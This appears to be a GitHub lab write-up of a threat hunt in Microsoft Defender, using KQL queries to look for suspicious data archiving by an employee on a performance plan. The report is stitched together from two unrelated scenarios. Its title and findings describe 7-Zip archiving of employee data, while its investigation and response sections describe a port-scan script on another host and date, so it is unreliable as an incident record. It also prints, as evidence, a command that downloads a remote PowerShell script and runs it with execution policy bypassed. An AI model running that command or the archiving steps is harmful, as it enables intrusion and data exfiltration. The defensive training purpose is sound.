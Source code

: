 

# Suspicious Data Archiving on Corporate Device
# Objective:
Identify any suspicious process executions, file archival activity, and associated network traffic surrounding critical timestamps.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Title: Suspected Data Exfiltration Attempt by PIP'd Employee
Target: John Doe Smith (Employee under Performance Improvement Plan)
Device Investigated: vmlab-fe
Investigator: Fe Esguerra
Date: June 21, 2025
Tool Used: Microsoft Defender for Endpoint (MDE)

## 2. Preparation
### Goal:
Assess potential insider threat activities by John Doe Smith, who recently exhibited behavioral concerns and may attempt to exfiltrate sensitive company data prior to resigning or termination.

### Hypothesis:
Due to John's administrative privileges and emotional response to being placed on a PIP, we hypothesize he may attempt to compress and transfer sensitive files outside the organization using custom or common archive tools (e.g., 7-Zip).

## 3. Data Collection
### Data Sources Queried:

#### DeviceFileEvents 

![DataCollection1](https://github.com/user-attachments/assets/9e98c6f6-d8be-4362-9a4b-e8733b634626)


## 4. Data Analysis

### Focus Areas:

- Queried .zip file creation events:
```kql
DeviceFileEvents
| where DeviceName == "vmlab-fe"
| where FileName endswith ".zip"
| order by Timestamp desc


```
![DataCollection2](https://github.com/user-attachments/assets/838c31ec-c5f6-49b3-ba03-d675e1163c26)
  
- Identified a recurring pattern of archives being created and saved in a "backup" folder.

- Timestamp of a notable archive creation: 2025-06-21T04:53:44.4622833Z

- Analyzed process activity ±2 minutes around that timestamp:

```kql
let VMName = "vmlab-fe";
let specificTime = datetime(2025-06-21T04:53:44.4622833Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```


![DataCollection3](https://github.com/user-attachments/assets/d1fdc9d4-b9ed-4bd3-97f7-55de23d7bcab)

### Findings:

- A PowerShell script silently installed 7-Zip.
- The script then used 7z.exe to archive employee data.
- Example of the command observed:


```python
powershell.exe -ExecutionPolicy Bypass -Command "...Install 7zip..."
7z.exe a -tzip archive.zip EmployeeData\

```

![DataCollection5](https://github.com/user-attachments/assets/ff02c0fe-f7d6-43ec-80aa-10c50c3c9380)



## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

I logged into the suspect computer and observed the powershell script that was used to conduct the port scan:

![portscan](https://github.com/user-attachments/assets/ba71f03c-5e53-4fab-bf31-743708f8d6d2)


## 6. Response
### Actions Taken:

- Logged into the device to verify script existence. 
- Confirmed the file portscan.ps1 existed under C:\ProgramData. 
- Isolated the host from the network. 
- Performed a full malware scan (no malware detected). 
- Escalated to IT for reimaging of the device to ensure integrity. 

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)

## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild




